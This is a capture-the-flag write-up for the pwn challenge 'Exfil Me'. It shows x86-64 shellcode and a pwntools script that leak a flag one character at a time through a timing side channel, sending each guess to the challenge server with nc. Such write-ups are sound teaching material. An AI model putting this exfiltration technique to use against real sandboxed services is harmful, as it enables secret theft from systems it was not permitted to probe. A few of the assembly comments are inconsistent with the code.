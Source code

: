 # Exfil Me
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-400-orange)

## Description
```
placeholder - problem hidden
```

## Solution
We get to run our own shellcode at `0x13371337000`. Sweet! Unfortunately, we can only use the `read`, `open`, and `exit` syscalls, so there appears to be no way to get us the flag. However, we can rely on a timing attack - in which we can guess the flag character by character, and pause for a long time if our guess is correct. Then, if our script runs for a long time, we know that our guess is correct.

To do this, I tried to hang the program using an infinite loop, but that crashed the instance and the only way to fix it was to restart it. Instead, I settled for a for loop with 1 billion iterations - which takes well over 2 seconds to complete.

However, a typical for loop uses labels to determine where to jump to, something unavailable in shellcode.
```
label:
 cmp i, n                    ; compare i and n
 jge end_of_loop             ; jump if i >= n
 do stuff
 jmp label                   ; jump to start of loop
end_of_loop:
 do stuff
```
 
To overcome this absolute catastrophe, I had to use `cmov` (similar to `int a = condition ? 0 : 10000`) and store the starting address of the loop in a register, because our code is always loaded at `0x13371337000`.

The code would then look something like this:
```
mov rdx, 0
mov rcx, 1000000000     ; loop iterations
cmp byte[rax], bl       ; compare our guess against the flag
cmovne rcx, rdx         ; set 0 loop iterations if our guess != the right char
mov r12, 0x13371337067  ; the starting address of the loop
dec rcx                 ; i-- (also the start of the loop)
cmp rcx, 0              ; compare rcx against 0
cmovle r12, rdx         ; if rcx <= 0 then set r12 to 0 (out of bounds memory, will crash when we jump)
jmp rcx                 ; jump to rcx (start of loop) or 0 (if i <= 0), crashing the program
```

The rest of the code before this is to read the flag and set rax = address of character we're comparing, and bl = character we're guessing.


```as
main:
 mov eax, 2;                        syscall = open
 xor ebx, ebx;                      push("flag.txt\x00")
 push rbx;
 mov rbx, 0x7478742e67616c66;
 push rbx;
 mov rdi, rsp;                      param1 = "flag.txt"
 xor esi, esi;                      param2 = 0 ("r")
 xor edx, edx;                      param3 = 0 ("r")
 syscall                            int fd = open("flag.txt", "r", "r");
 mov rdi, rax;                      param1 = fd
 xor eax, eax;                      syscall = read
 mov rsi, 0x1337133a000;            param2 = &buf (0x1337133a000, known safe location)
 mov edx, 32;                       param3 = 32
 syscall;                           read(fd, &buf, 32)
 mov r12d, 0;                       $r12 = loop iterations if wrong character (0)
 mov r13d, 1;                       idk this was useless
 mov r14d, 0;                       $r14 = 0
 mov r15d, 1000000000               $r15 = loop iterations if correct character
 mov rax, 0x13371337070;            points to start of for loop
 mov rcx, rax;                      $rcx = start of for loop
 mov rax, 0x1337133a000;            $rax = &buf (from earlier)
*add rax, $index                    $rax = &buf[index]
*mov ebx, $char                     $rbx = char we're testing for
 cmp byte[rax], bl                  if (buf[index] == char we're testing for)
 cmovne r15, r12                        $r15 = 0 (loop zero times)
 dec r15                            for (int i = $r15;; i--) {
 cmp r15, 0                             if (i <= 0)
 cmovle rcx, r14                            $r14 = 0 (crash once we jump)
 jmp rcx                            }
```

The two lines marked with a star need to change between guesses, but all the other lines are identical.

```py
from pwn import *

context.arch = 'amd64'

shellcode = """
 mov eax, 2;
 xor ebx, ebx;
 push rbx;
 mov rbx, 0x7478742e67616c66;
 push rbx;
 mov rdi, rsp;
 xor esi, esi;
 xor edx, edx;
 syscall
 mov rdi, rax;
 xor eax, eax;
 mov rsi, 0x1337133a000;
 mov edx, 32;
 syscall;
 mov r12d, 0;
 mov r13d, 1;
 mov r14d, 0;
 mov r15d, 1000000000;
 mov rax, 0x13371337070;
 mov rcx, rax;
 mov rax, 0x1337133a000;"""

template = asm(shellcode)

"""
 cmp byte[rax], bl
 cmovne r15, r12
 dec r15
 cmp r15, 0
 cmovle rcx, r14
 jmp rcx
"""
template2 = b'\x38\x18\x4d\x0f\x45\xfc\x49\xff\xcf\x49\x83\xff\x00\x49\x0f\x4e\xce\xff\xe1'

flag = ""
import subprocess
import time
import sys
for index in range(len(flag), 32):
    for char in range(33, 126):
        print(flag + chr(char))
        pay = template + asm(f"add rax, {index}; mov ebx, {char}") + template2
        with open('in', 'wb') as f:
            f.write(pay + b'\n')
        try:
            subprocess.run("cat in | nc 15f728c.0x16.ink 30486", shell=True, timeout=2)
        except subprocess.TimeoutExpired:
            flag += chr(char)
            print("New char: " + flag)
            if chr(char) == '}':
                print("We found the flag!")
                sys.exit(0)
            time.sleep(6)
            break
        if char == 125:
            print("Uh oh, error")
            sys.exit(1)
```

This builds the shellcode and sends it to the server, guessing every character in every position. If we guess the right character, the subprocess timeout will kick in, causing a TimeoutExpired exception that we can catch. Then, we append it to the flag and pause for 6 seconds to allow the program to finish looping and crash before we start guessing again.

There is one small problem though - character 10 can't be guessed because `add rax, 10` adds a newline in our input, causing fgets to cut off the rest of our input. So at index 10, I had to manually add some placeholder character into the flag, hoping that I could figure it out once the rest of the flag was leaked.

```
CTF{Ever_h_ard_of_BROP?}
We found the flag!
```

At this point, it's pretty obvious that the missing character is `e`.

Flag: `CTF{Ever_heard_of_BROP?}`
